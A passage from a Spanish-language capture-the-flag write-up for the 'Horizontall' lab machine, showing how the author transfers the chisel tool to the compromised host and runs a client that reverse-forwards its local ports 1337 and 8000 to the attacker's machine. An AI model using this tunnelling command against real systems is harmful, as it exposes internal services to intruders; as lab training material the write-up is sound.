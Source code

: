 ![](/assets/img/commons/Horizontall/terminal11.png)

Estamos a espera del cliente , ahora pasaré el chisel a la máquina victima

![](/assets/img/commons/Horizontall/terminal12.png)

arriba vemos nuestro servidor que compartimos para pasar chisel y abajo la descarga, una vez descargado le damos permisos de ejecución.
Ahora solo falta establecer el cliente y los puertos a reenviar 

```console
$ strapi@horizontall:/tmp$ ./chisel client 10.10.14.9:12345 R:1337:127.0.0.1:1337 R:8000:127.0.0.1:8000
```
primero se establece el cliente a mi servidor que establecimos despues indico que quiero una conexión remota por al puerto 1337 de su localhost y ese puerto lo pasaré ahora al mio de mi máquina atacante y lo mismo hacemos con el puerto 8000

![](/assets/img/commons/Horizontall/terminal13.png)
